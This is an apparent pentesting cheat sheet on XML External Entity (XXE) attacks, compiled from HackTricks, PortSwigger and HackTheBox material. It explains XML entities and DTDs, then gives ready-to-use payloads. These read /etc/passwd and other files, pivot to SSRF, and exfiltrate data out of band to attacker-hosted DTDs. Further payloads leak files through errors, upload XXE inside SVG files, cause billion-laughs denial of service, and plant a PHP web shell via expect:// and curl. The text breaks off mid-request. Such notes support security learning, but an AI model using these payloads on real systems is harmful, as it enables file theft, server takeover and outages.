






# XXE - XEE XML External Entity attacks

??? quote "Sources"
    - [HackTricks](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity).
    - Portswigger.
    - [HackTheBox](https://academy.hackthebox.com/module/details/134)

## Basic concepts

### What it XML?

XML stands for "extensible markup language". XML is a language designed for storing and transporting data. Like HTML, XML uses a tree-like structure of tags and data. Unlike HTML, XML does not use predefined tags, and so tags can be given names that describe the data. 

### What are XML entities?

XML entities are a way of representing an item of data within an XML document, instead of using the data itself. Various entities are built in to the specification of the XML language. For example, the entities &lt; and &gt; represent the characters < and >. These are metacharacters used to denote XML tags, and so must generally be represented using their entities when they appear within data.

### What are XML elements?

Element type declarations set the rules for the type and number of elements that may appear in an XML document, what elements may appear inside each other, and what order they must appear in. For example:

```
<!ELEMENT root ANY> Means that any object could be inside the parent <root></root>

<!ELEMENT root EMPTY> Means that it should be empty <stockCheck></stockCheck>

<!ELEMENT root (name,password)> Declares that <root> can have the children <name> and <password>
```

### What is document type definition?

The XML document type definition (DTD) contains declarations that can define the structure of an XML document, the types of data values it can contain, and other items. The DTD is declared within the optional DOCTYPE element at the start of the XML document. The DTD can be fully self-contained within the document itself (known as an "internal DTD") or can be loaded from elsewhere (known as an "external DTD") or can be hybrid of the two.

`XML Document Type Definition (DTD)` allows the validation of an XML document against a pre-defined document structure. The pre-defined document structure can be defined in the document itself or in an external file. 

The following is an example of an XML document:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<email>
  <date>01-01-2022</date>
  <time>10:00 am UTC</time>
  <sender>john@inlanefreight.com</sender>
  <recipients>
    <to>HR@inlanefreight.com</to>
    <cc>
        <to>billing@inlanefreight.com</to>
        <to>payslips@inlanefreight.com</to>
    </cc>
  </recipients>
  <body>
  Hello,
      Kindly share with me the invoice for the payment made on January 1, 2022.
  Regards,
  John
  </body> 
</email>
```

whereas:

| Key           | Definition                                                                                                    | Example                                  |
| ------------- | ------------------------------------------------------------------------------------------------------------- | ---------------------------------------- |
| `Tag`         | The keys of an XML document, usually wrapped with (`<`/`>`) characters.                                       | `<date>`                                 |
| `Entity`      | XML variables, usually wrapped with (`&`/`;`) characters.                                                     | `&lt;`                                   |
| `Element`     | The root element or any of its child elements, and its value is stored in between a start-tag and an end-tag. | `<date>01-01-2022</date>`                |
| `Attribute`   | Optional specifications for any element that are stored in the tags, which may be used by the XML parser.     | `version="1.0"`/`encoding="UTF-8"`       |
| `Declaration` | Usually the first line of an XML document, and defines the XML version and encoding to use when parsing it.   | `<?xml version="1.0" encoding="UTF-8"?>` |

 The  DTD for this xml could be:

```xml
<!DOCTYPE email [
  <!ELEMENT email (date, time, sender, recipients, body)>
  <!ELEMENT recipients (to, cc?)>
  <!ELEMENT cc (to*)>
  <!ELEMENT date (#PCDATA)>
  <!ELEMENT time (#PCDATA)>
  <!ELEMENT sender (#PCDATA)>
  <!ELEMENT to  (#PCDATA)>
  <!ELEMENT body (#PCDATA)>
]>
```

The above DTD can be placed within the XML document itself, right after the `XML Declaration` in the first line. Otherwise, it can be stored in an external file (e.g. `email.dtd`), and then referenced within the XML document with the `SYSTEM` keyword, as follows:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email SYSTEM "email.dtd">
```

It is also possible to reference a DTD through a URL, as follows:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email SYSTEM "http://example.com/email.dtd">
```

### How XML custom entities work?

XML allows custom entities (i.e. XML variables) to be defined within the DTD to allow refactoring of variables and reduce repetitive data. This can be done with the use of the `ENTITY` keyword, which is followed by the entity name and its value, as follows:

```
<!DOCTYPE foo [ <!ENTITY myentity "my entity value" > ]>
```

This definition means that any usage of the entity reference `&myentity;` (between an ampersand `&` and a semi-colon `;`) within the XML document will be replaced with the defined value: "my entity value".

### What are XML external entities?

XML external entities are a type of custom entity whose definition is located outside of the DTD where they are declared. The declaration of an external entity uses the SYSTEM keyword and must specify a URL from which the value of the entity should be loaded. For example:

```
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://normal-website.com" > ]>
```

The URL can use the file:// protocol, and so external entities can be loaded from file. For example:

```
<!DOCTYPE nameThatYouWant [ <!ENTITY nameofEntity SYSTEM "file:///path/to/file" > ]>
<root>
    <name>&nameofEntity;</name>
    <password>1</password>
</root>

# nameThatyouWant: string with the name that you want
# nameofEntity: we will call the entity using this name. It
# <!ENTITY: There might be more than one entity defined
# SYSTEM: allow us to call the entity
# file:// -> To call an internal value. But instead of file we can call:
    # http://
    # ftp://
    # ssh://
    # php://
# &nameofEntity;  -> This is how you request the object
```


>**Note:** We may also use the `PUBLIC` keyword instead of `SYSTEM` for loading external resources, which is used with publicly declared entities and standards, such as a language code (`lang="en"`).


#### Classic XML External Entity

```
# Classic XXE
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd" > ]>
<name>&nameofEntity;</name>
```

#### Base-encoded XML External Entity

This trick only works with PHP web applications: 

```
# Base encoded XXE
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=file:///etc/passwd" > ]>
<name>&nameofEntity;</name>

```

#### Blind XML External Entity - Out of Band 


```
# Blind XXE 1
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "file:///etc/passwd"> %xxe; ]>
```

```
# Blind XXE 2
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://malicious.com/exploit"> %xxe; ]>

	# http://malicious.com/exploit will contain another entity such as 
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "file:///etc/passwd"> %xxe; ]>
```


### But why external entities are accepted

This is a snipped of a PHP code that accept extenal DTDs

```php
<?php

libxml_disable_entity_loader (false);
// libxml_disable_entity_loader (true);

$xmlfile = file_get_contents('php://input');
$dom = new DOMDocument();
$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
$info = simplexml_import_dom($dom);
$name = $info->name;
$password = $info->password;

echo "Sorrym this $name is not available";
?>
```

Allowing external DTDs is done in line:

```
libxml_disable_entity_loader (false);
```


## Main attacks

### New Entity test

In this attack I'm going to test if a simple new ENTITY declaration is working:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY toreplace "3"> ]>
<stockCheck>
    <productId>&toreplace;</productId>
    <storeId>1</storeId>
</stockCheck>
```

### 1. Retrieve files

Modify the submitted XML in two ways:

- Introduce (or edit) a `DOCTYPE` element that defines an external entity containing the path to the file.
- Edit a data value in the XML that is returned in the application's response, to make use of the defined external entity.


In a windows system, we may use c:/windows/system32/drivers/etc/hosts:

```
POST /process.php HTTP/1.1
Host: 10.129.95.192
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/xml
Content-Length: 192
Origin: http://10.129.95.192
Connection: close
Referer: http://10.129.95.192/services.php
Cookie: PHPSESSID=1gjqt353d2lm5222nl3ufqru10

<?xml version = "1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///c:/windows/system32/drivers/etc/hosts'>]>
<order>
    <quantity>2</quantity>
    <item>&test;</item>
    <address>1</address>
</order>
```

In a Linux server go for 

```
# example 1
<?xml version = "1.0"?><!DOCTYPE foo [<!ENTITY example1 SYSTEM "/etc/passwd"> ]>
<order>
    <quantity>2</quantity>
    <item>&example1;</item>
    <address>1</address>
</order>


# example 2
<?xml version = "1.0"?><!DOCTYPE foo [ <!ENTITY example2 SYSTEM "file:///etc/passwd" > ]>
<order>
    <quantity>2</quantity>
    <item>&example2;</item>
    <address>1</address>
</order>
```


**Encoding techniques**

```
# Base encoded XXE
<?xml version = "1.0"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=file:///etc/passwd" > ]>
<name>&nameofEntity;</name>
```

This filter return the file base64-encoded to avoid data loss and truncate.

### 2. Chaining XXE to SSRF attacks

To exploit an XXE vulnerability to perform an SSRF attack, you need to define an external XML entity using the URL that you want to target, and use the defined entity within a data value. 

```
<?xml version = "1.0"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```

You would then make use of the defined entity in a data value within the XML.

[See this lab with an example of exploitation](../burpsuite/burpsuite-xxe.md#exploiting-xxe-to-perform-ssrf-attacks)


### 3. Blind XXE vulnerabilities

Sometimes the application does not return the values of any defined external entities in its responses, and so direct retrieval of server-side files is not possible.

Blind XXE requires the use of out-of-band techniques, and call the parameter (for example xxe) just after the ENTITY definition. Therefore, XML parameter entities are a special kind of XML entity which can only be referenced elsewhere within the DTD.

```
<?xml version = "1.0"?><!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://internal.vulnerable-website.com/"> %xxe;]>
```

You don't need to make use of the defined entity in a data value within the XML as the `%xxe;` is already calling the entity.


### 4. Blind XXE with data exfiltration out-of-band (Blind XXE with OOB data exfiltration)

#### Alternative 1

**1.** Create a malicious.dtd file:

```
<!ENTITY % file SYSTEM "file:///etc/passwd"> 
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>"> %eval; %exfiltrate;
```
Basically, malicious.dtd retrieves /etc/passwd from the instance in which is executed. 

**2.** Serve our malicious.dtd from http://atacker.com/malicious.dtd.

**3.** Submit a payload to the victim via XXE (blind) with a xml parameter entity.

```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://attacker.com/malicious.dtd"> %xxe;]>
```

This will cause the XML parser to fetch the external DTD from the attacker's server and interpret it inline.

#### Alternative 2: Manual attack

Create a blind.dtd file with the following content and serve it from our kali machine:

```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://$ipAttcker:8000/?content=%file;'>">
```

```bash
php -S 0.0.0.0:8000
```

Additionally, the file we want to read had the content of XXE_SAMPLE_DATA, then the file parameter would hold its base64 encoded data (WFhFX1NBTVBMRV9EQVRB). When the XML tries to reference the external oob parameter from our machine, it will request http://OUR_IP:8000/?content=WFhFX1NBTVBMRV9EQVRB. Finally, we can create a php script to decode this encoded content under name `index.php` and have it in the same location as blind.dtd as we will be serving it:

```php
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```

Now in the request:

```
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://$IPAttacker$:8000/blind.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```



The result:



>**Tip:** In addition to storing our base64 encoded data as a parameter to our URL, we may utilize `DNS OOB Exfiltration` by placing the encoded data as a sub-domain for our URL (e.g. `ENCODEDTEXT.our.website.com`), and then use a tool like `tcpdump` to capture any incoming traffic and decode the sub-domain string to get the data. Granted, this method is more advanced and requires more effort to exfiltrate data through.

#### Alternative 3: XXEInjector

Clone the tool [XXEInjector](../xxeinjector.md)

```bash
git clone https://github.com/enjoiz/XXEinjector.git
```

Once cloned, we will save our potentially vulnerable request into a file `xxe.req`. We will place the word `XXEINJECT` as a position locator for the tool:

```http
POST /blind/submitDetails.php HTTP/1.1
Host: 10.129.210.196
Content-Length: 169
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://10.129.201.94
Referer: http://10.129.201.94/blind/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT
```

Now we can run the tool:

```bash
ruby XXEinjector.rb --host=$IPAttacker --httpport=$port --file=$filename --path=/etc/passwd --oob=http --phpfilter

# Example:
ruby XXEinjector.rb --host=10.10.14.207 --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter
```

And see the logs under the new created Log folder within the tool:

```bash
cat Logs/10.129.210.196/etc/passwd.log 
```


### 5. Blind XXE to retrieve data via error messages

An alternative approach to exploiting blind XXE is to trigger an XML parsing error where the error message contains the sensitive data that you wish to retrieve. 

- Trigger an XML parsing error message containing the contents of the `/etc/passwd` file using a malicious external DTD as follows:

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>"> %eval; %error;

```

Invoking the malicious external DTD may result in an error message like the following:

```
java.io.FileNotFoundException: /nonexistent/root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin
```


### 6. Blind XXE by repurposing a local DTD

If a document's DTD uses a hybrid of internal and external DTD declarations, then the internal DTD can redefine entities that are declared in the external DTD. When this happens, the restriction on using an XML parameter entity within the definition of another parameter entity is relaxed.

 Essentially, the attack involves invoking a DTD file that happens to exist on the local filesystem and repurposing it to redefine an existing entity in a way that triggers a parsing error containing sensitive data.

For example, suppose there is a DTD file on the server filesystem at the location `/usr/local/app/schema.dtd`, and this DTD file defines an entity called `custom_entity`. An attacker can trigger an XML parsing error message containing the contents of the `/etc/passwd` file by submitting a hybrid DTD like the following:

```
<!DOCTYPE foo [ 
<!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd"> 
<!ENTITY % custom_entity ' 
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd"> <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>"> &#x25;eval; &#x25;error; '> 
%local_dtd; 
]>
```

### 7. XInclude attack

In the following scenario, we cannot implement a classic/blind/oob XXE attack because we don't control the entire XML document and so we cannot define the `DOCTYPE` element. 



We can bypass this client side verification with XInclude. **XInclude** is a part of the XML specification that allows an XML document to be built from sub-documents. We can place an `XInclude` attack within any data value in an XML document, so the attack can be performed in situations **where you only control a single item of data that is placed into a server-side XML document**. 

For instance:

```
<d0p xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></d0p>
```




### 8. XXE via file upload


In a file upload feature,  if the application expects to receive a format like `.png` or `.jpeg`, then the image processing lib is likely to accept `.svg` too.

Our XXE payload could be:

```
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```


### 9. Remote Code Execution:  PHP +  XXE

In addition to reading local files, we may be able to gain code execution over the remote server. We may still be able to execute commands on PHP-based web applications through the PHP://expect filter, though **this requires the PHP expect module to be installed and enabled**.

The most efficient method to turn XXE into RCE is by fetching a web shell from our server and writing it to the web app, and then we can interact with it to execute commands.

```
# Prepare the shell
echo '<?php system($_REQUEST["cmd"]);?>' > shell.php

# serve it
sudo python3 -m http.server 80
```

Now we can use the following XML code to execute a `curl` command that downloads our web shell into the remote server:

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```

**Note:** We replaced all spaces in the above XML code with `$IFS`, to avoid breaking the XML syntax. Furthermore, many other characters like `|`, `>`, and `{` may break the code, so we should avoid using them.

See [https://airman604.medium.com/from-xxe-to-rce-with-php-expect-the-missing-link-a18c265ea4c7](https://airman604.medium.com/from-xxe-to-rce-with-php-expect-the-missing-link-a18c265ea4c7)

### 10. Denial of Service (DOS)

Finally, one common use of XXE attacks is causing a Denial of Service (DOS) to the hosting web server, with the use the following payload:


```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY a0 "DOS" >
  <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
  <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
  <!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
  <!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
  <!ENTITY a5 "&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;">
  <!ENTITY a6 "&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;">
  <!ENTITY a7 "&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;">
  <!ENTITY a8 "&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;">
  <!ENTITY a9 "&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;">        
  <!ENTITY a10 "&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;">        
]>
<root>
<name></name>
<tel></tel>
<email>&a10;</email>
<message></message>
</root>
```

This payload defines the `a0` entity as `DOS`, references it in `a1` multiple times, references `a1` in `a2`, and so on until the back-end server's memory runs out due to the self-reference loops. **However, this attack no longer works with modern web servers (e.g., Apache), as they protect against entity self-reference**.


### 11. Advanced Data Exfiltration with CDATA

#### Alternative 1
We can utilize another method to extract any kind of data (including binary data) for any web application backend.

To output data that does not conform to the XML format, we can wrap the content of the external file reference with a `CDATA` tag (e.g. `<![CDATA[ FILE_CONTENT ]]>`). This way, the XML parser would consider this part raw data, which may contain any type of data, including any special characters.

One easy way to tackle this issue would be to define a `begin` internal entity with `<![CDATA[`, an `end` internal entity with `]]>`, and then place our external entity file in between, and it should be considered as a `CDATA` element, as follows:

```xml
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```

It may not work either because sometimes  **XML prevents joining internal and external entities**, so we will have to find a better way to do so.

#### Alternative 2

To bypass the previous limitation, we can utilize `XML Parameter Entities`, a special type of entity that starts with a `%` character and can only be used within the DTD: What's unique about parameter entities is that if we reference them from an external source.

```xml
<!ENTITY joined "%begin;%file;%end;">
```

So the final attack would be:

```bash
# From our kali
echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd

python3 -m http.server 8000
```

In the attacking payload that is uploaded to the target server:

```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///flag.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://10.10.14.207:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>

<root>
<name></name>
<tel></tel>
<email>&joined;</email><!-- reference the &joined; entity to print the file content -->
<message></message>
</root>
```

**Note:** In some modern web servers, we may not be able to read some files (like index.php), as the web server would be preventing a DOS attack caused by file/entity self-reference (i.e., XML entity reference loop).

### 12. Error Based XXE

Another situation we may find ourselves in is one where the web application might not write any output, so we cannot control any of the XML input entities to write its content. Let's consider the exercise we have in `/error` at the end of this section, in which none of the XML input entities is displayed on the screen.



Because of this, we have no entity that we can control to write the file output. First, let's try to send malformed XML data, and see if the web application displays any errors.

Next, we create a malicious.dtd file in our attacker machine and serve it:

```xml
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

```bash
python3 -m http.server 8000
```

We will do the following request:

```
POST /error/submitDetails.php HTTP/1.1
Host: 10.129.198.229
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
